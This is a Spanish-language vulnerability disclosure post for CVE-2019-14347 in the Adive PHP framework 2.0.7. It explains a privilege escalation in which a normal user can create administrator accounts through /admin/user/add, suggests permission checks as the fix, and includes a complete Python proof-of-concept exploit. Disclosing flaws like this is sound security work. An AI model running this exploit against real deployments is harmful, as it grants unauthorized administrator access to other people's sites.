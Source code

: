 +++
date = "2019-08-02"
title = "CVE-2019-14347 Escalacion de privilegios en Adive"
author = "Pablo Santiago"
toc = false
+++

## Adive Framework 2.0.7

[![/images/cve-2019-14347-escalacion-de-privilegios-en-adive/cve-2019-14347-escalacion-de-privilegios-en-adive_001.png](/images/cve-2019-14347-escalacion-de-privilegios-en-adive/cve-2019-14347-escalacion-de-privilegios-en-adive_001.png)](/images/cve-2019-14347-escalacion-de-privilegios-en-adive/cve-2019-14347-escalacion-de-privilegios-en-adive_001.png)

[https://www.adive.es/](https://www.adive.es/)

Adive es un Framework PHP 7 para desarrollar webs y aplicaciones en línea,administra bases de datos MySQL, es una alternativa rápida, fácil y excelente para generar plantillas teniendo así la principal estructura visual de cualquier pagina web. Esta versión incluye un kit de herramientas para desarrolladores para generar tablas, campos y entidades, formas de control y bases de datos. Adive es un ambicioso proyecto de Schben, cuyo objetivo es convertir la «codificación» en «diseño».

- 📅 Vulnerabilidad descubierta por Pablo Santiago el **02/08/2019**
- 🐛 [CVE-2019-14347](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-14347)
- 🔗 Link del software [web](https://www.adive.es/) y del [github](https://github.com/ferdinandmartin/adive-php7)
- 🐞 Versión vulnerable = **2.0.7** y anteriores probablemente.

**Solución**: Comprobar los permisos de los usuarios a la hora de realizar determinadas acciones.

## Vector de ataque / Criticidad de la explotación

### CRITICIDAD - 🟣 CRÍTICA 🟣

Es posible crear usuarios administradores y usuarios normales con un usuario que no tiene permisos para hacer determinadas acciones, ya que tiene privilegios/rol de un usuario normal y no de un un usuario con privilegios/rol de administrador.

### Prueba de Concepto (PoC)

La siguiente imagen muestra como estamos logeados con un usuario `user`, normal sin privilegios.

[![/images/cve-2019-14347-escalacion-de-privilegios-en-adive/cve-2019-14347-escalacion-de-privilegios-en-adive_002.png](/images/cve-2019-14347-escalacion-de-privilegios-en-adive/cve-2019-14347-escalacion-de-privilegios-en-adive_002.png)](/images/cve-2019-14347-escalacion-de-privilegios-en-adive/cve-2019-14347-escalacion-de-privilegios-en-adive_002.png)

La siguiente imagen es la iniciación de la ejecución del exploit que permite crear los usuarios, puede verse la ejecución completa del exploit

[![/images/cve-2019-14347-escalacion-de-privilegios-en-adive/cve-2019-14347-escalacion-de-privilegios-en-adive_003.gif](/images/cve-2019-14347-escalacion-de-privilegios-en-adive/cve-2019-14347-escalacion-de-privilegios-en-adive_003.gif)](/images/cve-2019-14347-escalacion-de-privilegios-en-adive/cve-2019-14347-escalacion-de-privilegios-en-adive_003.gif)
    
Realizando un peticion POST al recurso `/admin/user/add` y añadiendo los parámetros `UserName, userUsername,pass,cpass y permission`, es posible la creación de cualquier usuario.

### Código del exploit

```python
import requests
import sys

session = requests.Session()

http_proxy  = "http://127.0.0.1:8080"
https_proxy = "https://127.0.0.1:8080"

proxyDict = { 
	              "http"  : http_proxy, 
	              "https" : https_proxy
	            }
print('[*****************************************]')
print('[ BYPASSING Adive Framework Version.2.0.5 ]')
print('[*****************************************]''\n')



print('[+]Login with the correct credentials:' '\n')		
		
user = input('[+]user:')
password = input('[+]password:')
print('\n')

url = 'http://localhost/adive/admin/login'
values = {'user': user,
          'password': password,
          }

r = session.post(url, data=values, proxies=proxyDict)
cookie = session.cookies.get_dict()['PHPSESSID']

print('Your session cookie is:'+ cookie +'\n')


host = sys.argv[1]
print('Create the new user:')
userName = input('[+]User:')
userUsername = input('[+]UserName:')
password = input('[+]Password:')
password2 = input('[+]Confirm Password:')
print('The possibles permission are: 1: Administrator, 2: Developer, 3:Editor')
permission = input('[+]permission:')

if (password == password2):
#configure proxy burp	
	
#hacer el request para la creacion de usuario
	data = { 
	'userName':userName,
	'userUsername':userUsername,
	'pass':password,
	'cpass':password2,
	'permission':permission,
	
	}

	headers= {
	'Cookie': 'PHPSESSID='+cookie
	}
     
	request = session.post(host+'/adive/admin/user/add', data=data, headers=headers, proxies=proxyDict)	
	print('+--------------------------------------------------+')
		
else:
	print ('Passwords dont match!!!')
```